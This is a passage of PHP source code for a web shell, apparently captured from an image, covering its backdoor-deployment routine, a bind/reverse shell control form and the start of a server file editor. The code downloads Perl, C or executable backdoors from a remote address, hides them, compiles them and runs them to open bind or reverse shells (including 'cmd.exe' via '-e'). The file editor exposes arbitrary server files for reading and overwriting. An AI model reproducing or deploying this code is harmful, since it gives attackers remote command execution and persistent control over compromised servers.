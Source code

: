 shelL("attrib +H $name");
if(!$bd)echo $error;else shelL("$name $ip $port -e cmd.exe");
}else{
$name = $name.".pl";
$bd=downloadiT("$addr/winrc.pl",$name);
shelL("attrib +H $name");
if (!$bd)echo $error; else shelL("perl.exe $name $ip $port");
}
}
else{
if($c){
$bd=downloadiT("$addr/rc.c",$name);
if(!$bd) echo $error;else shelL("cd $d;gcc -o $n $n.c;chmod +x ./$n;./$n $ip $port &");
}else{
$bd=downloadiT("$addr/rc.pl",$name);
if(!$bd)echo $error;else shelL("cd $d;$perl $n $ip $port &");
}
}
echo "&lt;font color=blue&gt;Done!&lt;/font&gt;";}
else{echo "&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"100%\"&gt;&lt;tr&gt;&lt;td&gt;&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"50%\"&gt;&lt;tr&gt;&lt;td width=\"50%\" bgcolor=\"#333333\"&gt;Bind shelL:&lt;/td&gt;&lt;td bgcolor=\"#333333\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=\"POST\"&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Port:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input type=text name=port value=55501 size=5&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;Type:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=radio style=\"border-width:1px;background-color:#808080;\" value=0 checked name=C&gt;PERL&lt;input type=radio style=\"border-width:1px;background-color:#808080;\" name=C value=1&gt;"; if($windows)echo "EXE"; else echo "C";echo"&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#666666\" align=right&gt;$hcwd&lt;input type=submit class=buttons value=Bind&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/td&gt;&lt;td&gt;&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"50%\"&gt;&lt;tr&gt;&lt;td width=\"40%\" bgcolor=\"#333333\"&gt;Reverse shelL:&lt;/td&gt;&lt;td bgcolor=\"#333333\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=\"POST\"&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;IP:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=text name=ip value=";echo $_SERVER["REMOTE_ADDR"]; echo " size=17&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Port:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input type=text name=rport value=53 size=5&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;Type:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=radio style=\"border-width:1px;background-color:#808080;\" value=0 checked name=C&gt;PERL&lt;input type=radio style=\"border-width:1px;background-color:#808080;\" name=C value=1&gt;"; if($windows)echo "EXE"; else echo "C";echo"&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#666666\" align=right&gt;$hcwd&lt;input class=buttons type=submit value=Connect&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;$et";}}
function showimagE($img){
echo "&lt;center&gt;&lt;img border=0 src=\"".hlinK("imagE=$img&&workingdiR=".getcwd())."\"&gt;&lt;/center&gt;";}
function editoR($file){
global $errorbox,$et,$hcwd;
if (is_file($file)){
if (!is_readable($file)){echo "$errorbox File is not readable$et&lt;br&gt;";}
if (!is_writeable($file)){echo "$errorbox File is not writeable$et&lt;br&gt;";}
$data = file_get_contents($file);
echo "&lt;center&gt;&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"40%\"&gt;&lt;tr&gt;&lt;td width=\"10%\" bgcolor=\"#808080\"&gt;&lt;form method=\"POST\"&gt;$hcwd&lt;input type=text value=\"".htmlspecialchars($file)."\" size=75 name=file&gt;&lt;input type=submit class=buttons name=Open value=Open&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;br&gt;&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"40%\"&gt;&lt;tr&gt;&lt;td width=\"40%\" bgcolor=\"#666666\"&gt;&lt;form method=\"POST\"&gt;&lt;textarea rows=\"18\" name=\"edited\" cols=\"64\"&gt;";
echo htmlspecialchars($data);
echo "&lt;/textarea&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"10%\" bgcolor=\"#808080\"&gt;&lt;input type=text value=\"$file\" size=80 name=file&gt;&lt;/td&gt;&lt;/tr&gt;&lt;td width=\"40%\" bgcolor=\"#666666\" align=\"right\"&gt;";
}